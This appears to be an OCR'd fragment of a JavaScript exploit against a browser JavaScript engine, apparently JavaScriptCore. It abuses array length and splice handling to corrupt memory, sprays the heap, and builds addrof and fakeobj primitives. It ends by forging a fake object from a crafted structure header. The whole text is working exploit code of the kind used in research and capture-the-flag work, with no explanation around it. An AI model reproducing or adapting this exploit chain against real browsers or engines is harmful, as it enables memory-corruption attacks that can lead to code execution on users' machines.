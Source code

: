     arr.length = 0x100000;
    arr.splice(0, 0x11);
    arr.length = 0xfffffff0;

    let spray = new Array(0x3000);

    for (let i = 0; i < 0x3000; i += 2) {
        spray[i]   = [13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37,13.37+i];
        spray[i+1] = [{},{},{},{},{},{},{},{},{},{}];
    }
    for (let i = 0; i < 0x3000; i += 2)
        spray[i][0] = i2f(0x1337)


    arr.splice(0x1000,0,1);

    fake_index=-1;
    for(let i=0;i<0x3000;i+=2){
        if(spray[i].length!=10){
            print("hit: "+i.toString(16));
            fake_index=i;
            break;
        }
    }

    unboxed = spray[fake_index];
    boxed = spray[fake_index+1];
    print(describe(unboxed))
    print(describe(boxed))


    function addrof(obj){
        boxed[0] = obj;
        return f2i(unboxed[14]);

    }

    function fakeobj(addr){
        unboxed[14] = i2f(addr);
        return boxed[0];
    }



    victim = [1.1];
    victim[0] =3.3;;
    victim['prop'] = 13.37;
    victim['prop'+1] = 13.37;
    print(describe(victim))
    print(addrof(victim).toString(16))

    i32[0]=100;
    i32[1]=0x01082107 - 0x10000;
    var container={
        jscell:f64[0],
        butterfly:victim,
    }
    print(describe(container))
    container_addr = addrof(container);
    hax = fakeobj(container_addr+0x10);
